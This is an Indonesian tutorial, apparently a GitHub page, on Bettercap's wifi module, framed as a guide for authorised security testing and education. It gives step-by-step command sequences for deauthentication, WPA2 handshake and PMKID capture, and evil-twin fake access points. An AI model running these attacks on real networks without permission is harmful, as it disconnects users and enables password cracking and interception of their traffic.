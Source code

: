 # Modul `wifi` di Bettercap

## A. Pengertian Singkat

Modul `wifi` digunakan untuk **memantau dan menyerang jaringan Wi-Fi 802.11 secara aktif**. Modul ini mampu:
- Menemukan [access point](https://netmonk.id/blog/pengertian-access-point) dan [klien](https://www.liputan6.com/hot/read/5341870/client-adalah-perangkat-yang-terhubung-dengan-server-kenali-fungsinya)
- Melakukan serangan [deauth](https://en.wikipedia.org/wiki/Wi-Fi_deauthentication_attack), [fake AP](https://en.wikipedia.org/wiki/Fake_AP), dan [PMKID harvesting](https://www.nccgroup.com/us/research-blog/pmkid-attacks-debunking-the-80211r-myth/)
- Melakukan [channel hopping](https://en.wikipedia.org/wiki/Channel_hopping) untuk menangkap semua **jaringan**
- Menciptakan [evil twin access point](https://www.anakteknik.co.id/bayurahmadi/articles/evil-twin-attack-ancaman-serangan-pada-jaringan-wifi) untuk [social engineering](https://widyasecurity.com/2021/12/20/cyber-attack-social-engineering-dan-tips-menghadapinya/) atau **testing keamanan**

## B. Perintah Dasar

| Perintah | Fungsi |
|:--:|:--:|
| `wifi.recon on` | Mengaktifkan **pemindaian jaringan Wi-Fi** + **channel hopping** |
| `wifi.recon off` | Menonaktifkan **pemindaian jaringan** |
| `wifi.clear` | Menghapus daftar **access point** yang **ditemukan** |
| `wifi.recon MAC` | Filter hanya untuk **satu AP** berdasarkan [MAC](https://it.telkomuniversity.ac.id/mac-address-adalah/) |
| `wifi.recon clear` | Hapus filter **AP** |
| `wifi.show` | Tampilkan daftar **access point** |
| `wifi.show.wps BSSID` | Tampilkan info [WPS](https://rexus.id/blogs/tips/wps) dari **AP** |
| `wifi.recon.channel CH` | Atur **channel Wi-Fi** (pisahkan dengan koma) atau `clear` untuk **hopping** |

## C. Serangan Wireless

| Perintah | Fungsi |
|:--:|:--:|
| `wifi.deauth BSSID` | Serangan **deauthentication** untuk **memutus klien** dari **AP** |
| `wifi.assoc BSSID` | Kirim request **asosiasi** ke **AP** untuk mengambil **PMKID** |
| `wifi.ap` | Buat **access point palsu** (evil twin) |
| `wifi.fake_auth bssid client` | Kirim **fake auth frame** agar **klien terputus** |
| `wifi.probe BSSID ESSID` | Kirim **probe request palsu** |
| `wifi.channel_switch_announce BSSID channel` | Paksa **klien pindah channel** dan **terputus** |

## D. Parameter Penting

| Parameter	| Fungsi | Default |
|:--:|:--:|:--:|
| `wifi.interface` | Gunakan **interface tertentu** (misalnya `wlan0mon`)	| (otomatis) |
| `wifi.ap.ssid` | [SSID](https://id.wikipedia.org/wiki/Service_set_identifier) untuk **access point palsu** | `FreeWiFi` |
| `wifi.ap.encryption` | Gunakan [WPA2](https://id.wikipedia.org/wiki/Akses_Perlindungan_Wi-Fi) untuk **AP palsu** | `true` |
| `wifi.ap.channel` | [Channel](https://alcatelkomunikasi.com/pentingnya-mengatur-channel-pada-wifi) untuk **AP palsu** | `1` |
| `wifi.handshakes.file` | Lokasi file untuk menyimpan [handshakes](https://binus.ac.id/malang/2020/07/pentingnya-proses-handshake-pada-pemrograman-pada-jaringan/) | `~/bettercap-wifi-handshakes.pcap` |
| `wifi.txpower` | Set daya pemancar [Wi-Fi](https://id.wikipedia.org/wiki/Wi-Fi) (`mW`) | `30` |
| `wifi.rssi.min` | Batas minimum **sinyal** (`-dBm`) untuk ditampilkan | `-200` |
| `wifi.show.sort` | Urutan output `wifi.show` (misal `rssi desc`) | `rssi asc` |


## E. Contoh Penggunaan

### 1. Pindai Semua Jaringan Wi-Fi

```
wifi.recon on
```

### 2. Capture 4-Way Handshake

```
set wifi.handshakes.file <lokasi_simpan>
set wifi.handshakes.aggregate true
wifi.recon on
wifi.recon.channel <Channel_WiFi>
wifi.show
wifi.deauth <BSSID_WiFi>

# Kalo mau single client/target
wifi.deauth <MAC_Client> <BSSID_WiFi>
```

> **Catatan**: Kalo mau kustom lokasi simpan hasil capture 4-Way Handshake-nya jangan jalankan `wifi.recon on` dulu, tapi seting dulu `set wifi.handshakes.file <lokasi_simpan>`, terus baru `wifi.reco on`. Samakan saja seperti contoh diatas.


### 3. Buat Access Point Palsu

1. Tanpa Password:

   ```
   set wifi.ap.ssid <SSID_WiFi>
   set wifi.ap.encryption false
   wifi.ap
   ```

2. Menggunakan Password:

   ```
   set wifi.ap.ssid <SSID_WiFi>
   set wifi.ap.encryption wpa2
   set wifi.ap.key <password>
   wifi.ap
   ```

### 4. Capture PMKID WPA2 Hash

```
set wifi.handshakes.file <lokasi_simpan>
set wifi.handshakes.aggregate true
wifi.recon on
wifi.recon.channel <channel_WiFi>
wifi.show
wifi.assoc <BSSID_WiFi>
```

> **Catatan**: Kalo mau kustom lokasi simpan hasil capture PMKID WPA2 Hash-nya jangan jalankan `wifi.recon on` dulu, tapi seting dulu `set wifi.handshakes.file <lokasi_simpan>`, terus baru `wifi.reco on`. Samakan saja seperti contoh diatas.

### F. Fitur Advanced Filtering

| Perintah | Fungsi |
|:--:|:--:|
| `wifi.client.probe.sta.filter REGEX` | Filter berdasarkan **MAC klien** |
| `wifi.client.probe.ap.filter REGEX` | Filter berdasarkan **nama AP** |
| `wifi.show.filter REGEX` | Filter hasil `wifi.show` |
| `wifi.show.limit` | Batasi jumlah **AP** yang **ditampilkan** |
| `wifi.show.manufacturer true` | Tampilkan **vendor perangkat** |

## G. Etika & Keamanan
- Gunakan hanya untuk **pengujian legal**, **lab pribadi**, atau **dengan izin**.
- Serangan **deauth**, **PMKID**, **fake auth**, **dll** bersifat **destruktif**.
- Hindari serangan terhadap **jaringan publik tanpa izin**, karena bisa **melanggar hukum**.

## H. Kesimpulan

Modul `wifi` di [Bettercap](https://www.bettercap.org/) adalah alat lengkap untuk [recon](https://www.proweb.co.id/articles/ethical-hacking/jenis-intai.html) dan serangan nirkabel [802.11](https://id.wikipedia.org/wiki/IEEE_802.11). Dari scanning **pasif** hingga **eksploitasi aktif** seperti **deauth** dan **evil twin**, modul ini dapat digunakan untuk:
- Audit keamanan **jaringan Wi-Fi**
- Simulasi **serangan** untuk **edukasi**
- Pengujian **perangkat wireless** dan **proteksi**
